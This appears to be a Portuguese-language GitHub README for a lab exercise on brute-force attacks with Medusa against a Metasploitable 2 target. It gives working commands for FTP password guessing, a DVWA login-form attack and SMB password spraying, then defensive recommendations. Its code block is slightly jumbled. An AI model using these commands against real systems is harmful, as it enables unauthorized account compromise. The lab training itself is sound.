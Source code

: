# 🚀 Desafio DIO: Ataques de Força Bruta com Medusa

Projeto prático de segurança ofensiva em ambiente controlado.

## 🧪 Ambiente
- **Máquina atacante**: Kali Linux
- **Alvo simulado**: Metasploitable 2 (IP: 192.168.56.102)
- **Serviços testados**: FTP, Web (DVWA), SMB

## 💥 Comandos Utilizados

### FTP
```bash
Web (DVWA)
medusa -h 192.168.56.102 -U wordlists/users.txt -P /usr/share/wordlists/rockyou.txt -M ftp -t 2
medusa -h 192.168.56.102 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m FORM:"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:HTTP/1.1" -m FAIL:"Login failed"
SMB (Password Spraying)
medusa -h 192.168.56.102 -U wordlists/users.txt -p password -M smbnt -t 2

🛡️ Recomendações de Segurança:
Nunca use senhas fracas, padrão ou repetidas;
Implemente bloqueio após tentativas falhas;
Mantenha todos os serviços atualizados;
Use autenticação em dois fatores (2FA) sempre que possível;
Realize testes de segurança apenas em ambientes autorizados.
